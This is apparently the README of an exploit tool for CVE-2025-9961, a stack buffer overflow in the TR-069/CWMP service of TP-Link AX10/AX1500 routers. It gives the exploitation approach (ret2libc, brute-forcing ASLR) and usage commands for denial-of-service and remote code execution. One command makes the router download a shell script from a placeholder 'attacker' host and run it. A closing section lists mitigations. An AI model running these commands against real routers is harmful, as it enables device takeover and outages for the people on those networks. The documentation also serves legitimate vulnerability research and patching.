

# CVE-2025-9961

**TP-Link AX10/AX1500 CWMP Buffer Overflow RCE**

## Overview

Stack-based buffer overflow in CWMP (TR-069) leading to remote code execution.

| Field | Value |
|-------|-------|
| Product | TP-Link AX10, AX1500 |
| Affected | AX10 < 1.2.1, AX1500 < 1.3.11 |
| CVSS | 8.6 (High) |
| Type | Stack Buffer Overflow |
| Vector | CWMP/TR-069 (port 7547) |
| Impact | Remote Code Execution |

## Attack Flow



## Technical Details

The vulnerability is in the `cwmp` process handling of `SetParameterValues` SOAP requests. Input is used to calculate buffer size without bounds checking.

**Exploitation:**
- Use ret2libc to call system()
- ASLR bypass via brute force
- Service restarts allow repeated attempts

## Usage

```bash
python exploit.py <target_ip> --check-only

python exploit.py 192.168.0.1 --dos

python exploit.py 192.168.0.1 -c "wget http://attacker/shell.sh -O /tmp/s; sh /tmp/s"
```

## Parameters

| Flag | Description | Default |
|------|-------------|---------|
| `-p, --port` | CWMP port | 7547 |
| `-c, --command` | Command for RCE | none |
| `-t, --timeout` | Socket timeout | 10 |
| `--dos` | DoS mode only | off |
| `--check-only` | Check if vulnerable | off |

## Requirements

None (uses standard library)

## Mitigation

- Update to patched firmware
- Disable TR-069/CWMP
- Restrict port 7547 access

## Disclaimer

For authorized security testing only.
